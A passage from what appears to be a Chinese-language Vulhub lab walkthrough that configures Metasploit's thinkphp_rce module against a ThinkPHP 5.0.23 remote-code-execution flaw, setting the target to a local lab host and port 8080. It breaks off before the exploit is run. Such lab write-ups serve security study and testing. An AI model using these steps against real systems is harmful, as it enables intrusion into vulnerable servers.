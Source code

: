 **渗透测试**

**自动**

运行 MSF（记得关闭 BurpSuite，避免占用端口）

```
┌──(root㉿kali)-[~]
└─# msfdb run
```

查询 thinkphp 相关的漏洞

```
msf6 > search thinkphp
```

查看模块的详细信息

```
msf6 >  info 0
```

![查看模块的详细信息](./../../../../images/Vulhub/thinkphp/ThinkPHP5%205.0.23%20%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/%E6%9F%A5%E7%9C%8B%E6%A8%A1%E5%9D%97%E7%9A%84%E8%AF%A6%E7%BB%86%E4%BF%A1%E6%81%AF.png)

> 此模块支持 thinkphp 5.0.23 rce

加载 thinkphp_rce 模块

```
msf6 > use 0
```

显示 thinkphp_rce 选项

```
msf6 exploit(unix/webapp/thinkphp_rce) > show options
```

设置 rhosts

```
msf6 exploit(unix/webapp/thinkphp_rce) > set  rhosts centos.local
```

设置 rport

```
msf6 exploit(unix/webapp/thinkphp_rce) > set rport 8080
```
